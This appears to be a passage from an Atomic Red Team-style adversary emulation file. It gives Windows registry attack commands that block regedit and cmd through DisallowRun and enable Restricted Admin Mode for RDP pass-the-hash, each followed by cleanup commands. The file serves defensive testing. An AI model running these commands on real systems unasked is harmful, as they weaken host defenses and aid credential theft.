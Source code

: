 #### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v DisallowRun /t REG_DWORD /d 1 /f
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /f /t REG_SZ /v art1 /d "regedit.exe"
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /f /t REG_SZ /v art2 /d "cmd.exe"
```

#### Cleanup Commands:
```cmd
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v DisallowRun /f >nul 2>&1
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /v art1 /f >nul 2>&1
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /v art2 /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #45 - Enabling Restricted Admin Mode via Command_Prompt
Enabling Restricted Admin Mode via Command_Prompt,enables an attacker to perform a pass-the-hash attack using RDP.

See [Passing the Hash with Remote Desktop](https://www.kali.org/blog/passing-hash-remote-desktop/)

**Supported Platforms:** Windows


**auto_generated_guid:** fe7974e5-5813-477b-a7bd-311d4f535e83






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "hklm\system\currentcontrolset\control\lsa" /f /v DisableRestrictedAdmin /t REG_DWORD /d 0
```

#### Cleanup Commands:
```cmd
reg delete "hklm\system\currentcontrolset\control\lsa" /f /v DisableRestrictedAdmin >nul 2>&1
```
